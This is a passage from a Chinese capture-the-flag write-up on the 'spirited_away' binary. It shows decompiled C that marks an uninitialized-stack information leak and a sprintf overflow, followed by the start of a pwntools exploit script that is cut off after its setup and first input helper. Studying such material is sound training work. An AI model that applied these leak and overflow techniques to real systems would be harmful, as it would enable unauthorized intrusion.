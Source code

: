### 2）信息泄露
此外，还存在一个信息泄露漏洞，由于栈中变量 reason 未初始化，输出 reason 时会把栈中数据一起输出。     
```c
int survey()
{
  char v1; // [esp+10h] [ebp-E8h]   // 56 bytes
  size_t nbytes; // [esp+48h] [ebp-B0h]
  size_t v3; // [esp+4Ch] [ebp-ACh]
  char comment; // [esp+50h] [ebp-A8h]   // 80 bytes
  int age; // [esp+A0h] [ebp-58h]
  void *name; // [esp+A4h] [ebp-54h]   // 指向内存空间为 60 bytes的堆指针
  int reason; // [esp+A8h] [ebp-50h]    // 80 bytes

  nbytes = 60;    // 控制name 和 comment的输入长度
  v3 = 80;
LABEL_2:
  memset(&comment, 0, 80u);   // reason未初始化
  name = malloc(60u);
  printf("\nPlease enter your name: ");
  fflush(stdout);
  read(0, name, nbytes);
  printf("Please enter your age: ");
  fflush(stdout);
  __isoc99_scanf("%d", &age);
  printf("Why did you came to see this movie? ");
  fflush(stdout);
  read(0, &reason, v3);
  fflush(stdout);
  printf("Please enter your comment: ");
  fflush(stdout);
  read(0, &comment, nbytes);
  ++cnt;
  printf("Name: %s\n", name);
  printf("Age: %d\n", age);
  printf("Reason: %s\n", &reason);
  printf("Comment: %s\n\n", &comment);
  fflush(stdout);
  sprintf(&v1, "%d comment so far. We will review them as soon as we can", cnt);  // overflow
  puts(&v1);
…
}
```

## 2. 利用脚本
完整的利用脚本如下：
```python
# -*-coding:utf-8-*-
# author: 0x4C43

from pwn import *

context.log_level = 'debug'

elf = ELF('./spirited_away')
libc = ELF('./libc-2.23.so')

p = process('./spirited_away')

def comment1(name,age,reason,comment):
    p.recvuntil('name: ')
    p.send(name)
    p.recvuntil('age: ')
    p.sendline(age)
```